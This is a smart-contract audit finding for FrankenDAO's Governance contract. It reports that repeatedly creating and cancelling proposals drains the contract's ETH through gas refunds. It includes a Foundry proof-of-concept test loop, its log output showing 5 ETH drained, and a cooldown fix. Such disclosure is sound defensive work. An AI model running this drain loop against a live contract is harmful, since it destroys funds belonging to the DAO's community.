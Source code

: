 ElKu

high

# ETH balance of Governance contract can be completely drained by a malicious user

## Summary

The funds(eth) in [Governance](https://github.com/sherlock-audit/2022-11-frankendao/blob/main/src/Governance.sol) contract can be completely drained by a malicious user who is ready to sacrifice a small amount of his own eth.

## Vulnerability Detail

When creating a proposal using the [proposal](https://github.com/sherlock-audit/2022-11-frankendao/blob/main/src/Governance.sol#L337) function in `Governance` contract, if the `proposalRefund` is true, a refund is issued to the proposer on successful creation of the proposal. 

This created proposal can be immediately cancelled by the user and the proposal function can be called by the user again. The proposal is created successfully again and user gets a refund. Although each time the user still loses some eth, its a very a tiny amount and the majority of the gas he spends, he gets it back from the contract.

A malicious user can do this proposal creation-cancellation cycle multiple times in a single block to continossuly drain the contract funds. Even though he doesnt gain any money from it, he can do the damage to the community. 

The POC I used for testing is shared below:

The outputs displayed by the logs were like this:

```bash
[PASS] testElku3Proposals() (gas: 178045886)
Logs:
  Starting Gov contract eth: 5.000000000000000000
  Starting user balance eth: 0.006875970870244846
  Number of proposal rounds(create-cancel) for draining the contract: 625
  Total gas used by user: 202203880
  Total eth spent by the user: 5.055097000000000000
  Final user balance eth: -0.055097000000000000
```

We can see that the user called the proposal creation-cancellation cycle 625 times and drained the whole 5 eth available in the contract. While doing so he spent `5.055097 eth` as gas fees, but then the governance contract had sent him `5 eth` as refund. So he lost only `0.055097 eth` while doing tremendous damage to the protocol.

## Impact

Any user who has staked in the Staking contract can completely drain the Governance contract eth balance, by spending a small amount of his own eth.

## Code Snippet
The POC used for testing:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import { GovernanceBase } from "../bases/GovernanceBase.t.sol";
import { IGovernance } from "../../src/interfaces/IGovernance.sol";

contract ActiveProposalTestByElku is GovernanceBase {

    function testElku3Proposals() public {
        uint proposalId;
        uint bal;
        uint userGasUsed;
        uint startGas;
        uint i;
        int userBalance;
        int usedGas;
        emit log_named_decimal_uint("Starting Gov contract eth",address(gov).balance,18);
        emit log_named_decimal_int("Starting user balance eth",(userBalance = int(proposer.balance)),18);
        // create and cancel proposal continously until contract funds are drained.
        for(; i < 100000; i++) {
            startGas = gasleft();
            proposalId = _createProposal();
            userGasUsed += startGas - gasleft();  //add how much user spend creating a proposal
            vm.prank(proposer);
            startGas = gasleft();
            gov.cancel(proposalId);   
            userGasUsed += startGas - gasleft();   //add how much user spend cancelling the proposal
            bal = address(gov).balance;
            if(bal == 0) break;  //gov contract successfully drained
        }   
        emit log_named_uint("Number of proposal rounds(create-cancel) for draining the contract",i);
        emit log_named_uint("Total gas used by user",userGasUsed);
        emit log_named_decimal_int("Total eth spent by the user",(usedGas = int(userGasUsed*tx.gasprice)),18);
        emit log_named_decimal_int("Final user balance eth",(int(proposer.balance) - userBalance - usedGas),18);
    }
}
```

## Tool used

VSCode, Foundry, Manual Analysis

## Recommendation

Staking contract has a limit of one refund per day for staking and delegating. Such a limit could be introduced in proposal creation as well for refund.

Basically something like this:

```solidity
if (proposalRefund && lastProposalRefund[msg.sender] + refundCooldown <= block.timestamp) {
    uint256 startGas = gasleft();
    proposalId = _propose(_targets, _values, _signatures, _calldatas, _description);
    _refundGas(startGas);
    lastProposalRefund[msg.sender] = block.timestamp;
} else {
    proposalId = _propose(_targets, _values, _signatures, _calldatas, _description);
}
```

